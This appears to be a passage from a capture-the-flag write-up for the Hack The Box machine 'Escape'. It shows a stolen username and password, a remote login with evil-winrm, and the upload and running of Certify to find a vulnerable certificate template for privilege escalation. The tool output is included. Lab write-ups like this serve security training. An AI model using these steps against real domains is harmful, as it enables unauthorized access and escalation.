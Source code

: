 Now that we have Ryan.Cooper creds:
`Ryan.Cooper:NuclearMosquito3`
lets try winrm with him!

`evil-winrm -i 10.10.11.202 -u Ryan.Cooper -p 'NuclearMosquito3'`

indeed it did!

PWNED  Ryan and got user.txt on his desktop

---
#### PRIV ESC

Ok off with a hint:
```
What is the name of the vulnerable ADCS template on Escape?

Hint:
Try a tool like [Certify](https://github.com/GhostPack/Certify) or [Certipy](https://github.com/ly4k/Certipy) to enumerate ADCS.
```

`https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x86/Certify.exe`

download and uploaded it to target via winrm:
`upload Certify.exe`

run:
`.\Certify.exe find /vulnerable`

```
Listing info about the Enterprise CA 'sequel-DC-CA'

    Enterprise CA Name            : sequel-DC-CA
    DNS Hostname                  : dc.sequel.htb
    FullName                      : dc.sequel.htb\sequel-DC-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=sequel-DC-CA, DC=sequel, DC=htb
    Cert Thumbprint               : A263EA89CAFE503BB33513E359747FD262F91A56
    Cert Serial                   : 1EF2FA9A7E6EADAD4F5382F4CE283101
    Cert Start Date               : 11/18/2022 12:58:46 PM
    Cert End Date                 : 11/18/2121 1:08:46 PM
    Cert Chain                    : CN=sequel-DC-CA,DC=sequel,DC=htb
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal

      Allow  Enroll                                     NT AUTHORITY\Authenticated UsersS-1-5-11
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
      Allow  ManageCA, ManageCertificates               sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
    Enrollment Agent Restrictions : None

[!] Vulnerable Certificates Templates :

    CA Name                               : dc.sequel.htb\sequel-DC-CA
    Template Name                         : UserAuthentication
    Schema Version                        : 2
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required        : 0
```